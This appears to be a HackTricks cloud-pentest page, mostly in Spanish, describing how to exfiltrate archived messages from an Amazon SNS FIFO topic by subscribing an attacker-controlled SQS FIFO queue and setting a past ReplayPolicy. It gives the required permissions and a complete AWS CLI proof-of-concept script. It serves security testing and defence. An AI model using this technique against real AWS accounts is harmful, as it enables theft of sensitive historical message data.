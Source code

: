 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

{{#include ../../../../banners/hacktricks-training.md}}

Abuso del archivado de mensajes de topics Amazon SNS FIFO para replay y exfiltrate mensajes previamente publicados a una SQS FIFO controlada por el atacante estableciendo la suscripción ReplayPolicy.

- Service: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- Requirements: El topic debe tener `ArchivePolicy` habilitado (archivado de mensajes). El atacante puede Subscribe al topic y establecer atributos en su subscription. El atacante controla una SQS FIFO queue y permite que el topic envíe mensajes.
- Impact: Mensajes históricos (publicados antes de la suscripción) pueden ser entregados al endpoint del atacante. Las entregas replayed se marcan con Replayed=true en el sobre de SNS.

## Precondiciones
- SNS FIFO topic con archivado habilitado: `ArchivePolicy` (por ejemplo, `{ "MessageRetentionPeriod": "2" }` para 2 días).
- El atacante tiene permisos para:
  - `sns:Subscribe` en el topic objetivo.
  - `sns:SetSubscriptionAttributes` en la subscription creada.
- El atacante tiene una SQS FIFO queue y puede adjuntar una queue policy que permita `sns:SendMessage` desde el topic ARN.

## Permisos IAM mínimos
- En el topic: `sns:Subscribe`.
- En la subscription: `sns:SetSubscriptionAttributes`.
- En la queue: `sqs:SetQueueAttributes` para la policy, y una queue policy que permita `sns:SendMessage` desde el topic ARN.

## Attack: Replay archived messages to attacker SQS FIFO
El atacante subscribe su SQS FIFO queue al victim SNS FIFO topic, luego establece el `ReplayPolicy` a una marca de tiempo en el pasado (dentro de la ventana de retención del archive). SNS reproduce inmediatamente los mensajes archivados coincidentes a la nueva subscription y los marca con `Replayed=true`.

Notas:
- La marca de tiempo usada en `ReplayPolicy` debe ser >= el `BeginningArchiveTime` del topic. Si es anterior, la API devuelve `Invalid StartingPoint value`.
- Para SNS FIFO `Publish`, debe especificar un `MessageGroupId` (y o bien un dedup ID o habilitar `ContentBasedDeduplication`).

<details>
<summary>End-to-end CLI POC (us-east-1)</summary>
```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
--cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
--query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
--message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
--message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
--attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
--attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
'QueueUrl': os.environ['Q_URL'],
'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
--protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
--attribute-name ReplayPolicy \
--attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
--max-number-of-messages 10 --wait-time-seconds 10 \
--message-attribute-names All --attribute-names All
```
</details>

## Impacto
**Impacto potencial**: Un atacante que pueda suscribirse a un SNS FIFO topic con archiving enabled y establecer `ReplayPolicy` en su suscripción puede inmediatamente replay y exfiltrate mensajes históricos publicados en ese topic, no solo los mensajes enviados después de que se creó la suscripción. Los mensajes entregados incluyen una marca `Replayed=true` en el SNS envelope.

{{#include ../../../../banners/hacktricks-training.md}}
